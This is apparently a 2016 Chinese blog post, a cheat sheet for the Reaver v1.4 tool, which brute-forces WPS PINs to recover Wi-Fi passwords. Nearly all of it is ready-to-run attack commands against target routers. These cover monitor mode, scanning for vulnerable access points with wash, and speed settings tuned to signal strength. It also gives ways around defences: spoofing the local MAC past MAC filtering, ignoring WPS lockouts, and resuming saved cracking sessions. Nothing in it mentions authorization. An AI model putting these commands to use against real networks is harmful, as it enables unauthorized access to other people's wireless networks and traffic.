 ```yaml
---  
layout: post  
title: Reaver v1.4 用法整理  
date: 2016-02-16 13:56:16  +0800  
categories: 网络  
---  
```

  
#使用方法：  
airmon-ng start wlan0 //启动mon0监控  
reaver -i mon0 -b MAC -a -S -vv //普通用法  
如果，90.9%进程后死机或停机，请记下PIN前四位数，用指令：  
reaver -i mon0 -b MAC -a -vv -p XXXX(PIN前四位数)  
其他命令  
airodump-ng mon0 用来扫描周围无线信号  
wash -i mon0 -C 这个是用来检测周围无线支持PIN的路由  
如果一直pin不动，尝试加-N参数  
reaver -i mon0 -b xx:xx:xx:xx:xx:xx -d 0 -vv -a -S -N  
也可以加延时 -t 3 -b 3  
常用参数释疑  
-i 监听后接口名称 网卡的监视接口，通常是mon0  
-b 目标mac地址 AP的MAC地址  
-a 自动检测目标AP最佳配置  
-S 使用最小的DH key，可以提高PJ速度  
-vv 显示更多的非严重警告  
-d 即delay每穷举一次的闲置时间 预设为1秒  
reaver -i mon0 -b MAC -d 0  
用上述指令可以大幅加快PJ速度 但是有些AP可能受不了  
-c （后跟频道数） 指定频道,可以方便找到信号  
-p PIN码四位或八位 //已知pin码前4位可以带此参数，指定从这个数字开始pin。可以用8位直接找到密码。  
-N 不发送NACK信息（如果一直pin不动，可以尝试这个参数）  
-n 对目标AP总是发送NACK，默认自动  
-t 即timeout每次穷举等待反馈的最长时间，如果信号不错，可以这样设置  
reaver -i mon0 -b MAC -d 0 -t .5  
-m, –mac= 指定本机MAC地址，在AP有MAC过滤的时候需要使用  
小结-PJ时应因状况调整参数:  
信号非常好:  
reaver -i mon0 -b MAC -a -S -vv -d 0 -c 1  
信号普通:  
reaver -i mon0 -b MAC -a -S -vv -d .5 -t .5 -c 1  
信号一般:  
reaver -i mon0 -b MAC -a -S -vv -c 1  
当出现有百分数时你就可以用crtl+c来暂停，它会将reaver的进度表文件保存在  
1.3版：  
/etc/reaver/MAC地址.wpc  
1.4版：  
/usr/local/etc/reaver/MAC地址.wpc  
用资源管理器，手工将以MAC地址命名的、后辍为wpc的文件拷贝到U盘或硬盘中，  
下次重启动后，再手工复制到/etc/reaver/ 目录下即可。  
不是所有的路由都支持pin学习。AP关闭了WPS、或者没有QSS滴，会出现  
WARNING: Failed to associate with XX:XX:XX:XX:XX:XX (ESSID: XXXX)  
学习过程中也可随时随地按Ctrl+C终止PJ，重复同一个PIN码 或 timeou t可终止，reaver会自动保存进度。  
继续上次的PJ，则再次在终端中发送:  
reaver -i mon0 -b MAC -vv  
这条指令下达后，会让你选y或n，选y后就继续了  
当reaver确定前4位PIN密码后，其工作完成任务进度数值将直接跳跃至90.9%以上，也就是说只剩余一千个密码组合了（总共一万一千个密码）。  
参数详细说明:  
-m, –mac= MAC of the host system  
指定本机MAC地址，在AP有MAC过滤的时候需要使用  
-e, –essid= ESSID of the target AP  
路由器的ESSID，一般不用指定  
-c, –channel= Set the 802.11 channel for the interface (implies -f)  
信号的频道，如果不指定会自动扫描  
-o, –out-file= Send output to a log file [stdout] 标准输出到文件  
-s, –session= Restore a previous session file  
恢复进程文件  
-C, –exec= Execute the supplied command upon successful pin recovery  
pin成功后执行命令  
-D, –daemonize Daemonize reaver  
设置reaver成Daemon  
-a, –auto Auto detect the best advanced options for the target AP  
对目标AP自动检测高级参数  
-f, –fixed Disable channel hopping  
禁止频道跳转  
-5, –5ghz Use 5GHz 802.11 channels  
使用5G频道  
-v, –verbose Display non-critical warnings (-vv for more)  
显示不重要警告信息 -vv 可以显示更多  
-q, –quiet Only display critical messages  
只显示关键信息  
-h, –help Show help  
显示帮助  
-vv 显示更多的非严重警告  
高级参数:  
-p, –pin= Use the specified 4 or 8 digit WPS pin  
直接读取psk（本人测试未成功，建议用网卡自带软件获取）  
-d, –delay= Set the delay between pin attempts [1] pin间延时，默认1秒，推荐设0  
-l, –lock-delay= Set the time to wait if the AP locks WPS pin attempts [60] AP锁定WPS后等待时间  
-g, –max-attempts= Quit after num pin attempts  
最大pin次数  
-x, –fail-wait= Set the time to sleep after 10 unexpected failures [0] 10次意外失败后等待时间，默认0秒  
-r, –recurring-delay= Sleep for y seconds every x pin attempts  
每x次pin后等待y秒  
-t, –timeout= Set the receive timeout period [5] 收包超时，默认5秒  
-T, –m57-timeout= Set the M5/M7 timeout period [0.20] M5/M7超时，默认0.2秒  
-A, –no-associate Do not associate with the AP (association must be done by another application)  
不连入AP（连入过程必须有其他程序完成）  
-N, –no-nacks Do not send NACK messages when out of order packets are received  
不发送NACK信息（如果一直pin不动，可以尝试这个参数）  
-S, –dh-small Use small DH keys to improve crack speed  
使用小DH关键值提高速度（推荐使用）  
-L, –ignore-locks Ignore locked state reported by the target AP  
忽略目标AP报告的锁定状态  
-E, –eap-terminate Terminate each WPS session with an EAP FAIL packet  
每当收到EAP失败包就终止WPS进程  
-n, –nack Target AP always sends a NACK [Auto] 对目标AP总是发送NACK，默认自动  
-w, –win7 Mimic a Windows 7 registrar [False] 模拟win7注册，默认关闭  
   
   
Ubuntu 14下出现reaver进度不能保存的手动使用-s参数指定文件保存位置即可